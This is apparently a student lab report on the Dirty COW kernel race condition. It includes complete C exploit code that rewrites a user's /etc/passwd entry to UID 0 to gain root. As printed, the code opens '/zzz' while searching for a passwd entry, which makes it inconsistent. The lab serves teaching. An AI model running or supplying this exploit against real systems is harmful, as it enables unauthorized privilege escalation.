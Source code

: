 ## Dirty COW Attack

### Task 1: Modify a Dummy Read-Only file

**Create a dummy file:**

Created a file at `/` named `zzz`:
![](attachment/9e2cca676c88f5a27c7d7b0692141197.png)

Provided `644` permissions such that only root can have r/w access and others can only read this file.

- Confirmed that a regular user can't write to this file.
![](attachment/8fc8d64f78f9af9e93d89e4f095dcb7c.png)


**Launch the attack:**

After compiling the given code and running the executable, I can see the file content has been modified. i.e., `222222` is replaced with `******`.

![](attachment/72694f5b023fa9dbcb14ac2c276728d5.png)

---

### Task 2: Modify the Password File to Gain the Root Privilege

Created a new user named `charlie`.
![](attachment/cc3030fc187348406cb268aca022f836.png)

We can see the charlie's UID is set to `1001`


Modifying the charlie’s entry in `/etc/passwd`, from 1001 to 0000, turning charlie into a root account. 

My Code:

```c
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>
void *map;
void *writeThread(void *arg);
void *madviseThread(void *arg);
int main(int argc, char *argv[])
{
  pthread_t pth1,pth2;
  struct stat st;
  int file_size;
  // Open the target file in the read-only mode.
  int f=open("/zzz", O_RDONLY);
  // Map the file to COW memory using MAP_PRIVATE.
  fstat(f, &st);
  file_size = st.st_size;
  map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);
  // Find the position of the target area
  char *position = strstr(map, "charlie:x:1001");                        
  // We have to do the attack using two threads.
  pthread_create(&pth1, NULL, madviseThread, (void  *)file_size); 
  pthread_create(&pth2, NULL, writeThread, position);             
  // Wait for the threads to finish.
  pthread_join(pth1, NULL);
  pthread_join(pth2, NULL);
  return 0;
}
void *writeThread(void *arg)
{
  char *content= "charlie:x:0000";
  off_t offset = (off_t) arg;
  int f=open("/proc/self/mem", O_RDWR);
  while(1) {
    // Move the file pointer to the corresponding position.
    lseek(f, offset, SEEK_SET);
    // Write to the memory.
    write(f, content, strlen(content));
  }
}
void *madviseThread(void *arg)
{
  int file_size = (int) arg;
  while(1){
      madvise(map, file_size, MADV_DONTNEED);
  }
}
```


After compiling and running the executable, we can see that user `charlie` got access to root with the regular user permissions. 

![](attachment/71f75c3be81c5b2baf77fc60d68ad454.png)

`cat /etc/passwd`:

![](attachment/c61d2e67070f72b656f33c4c6400c35b.png)


---
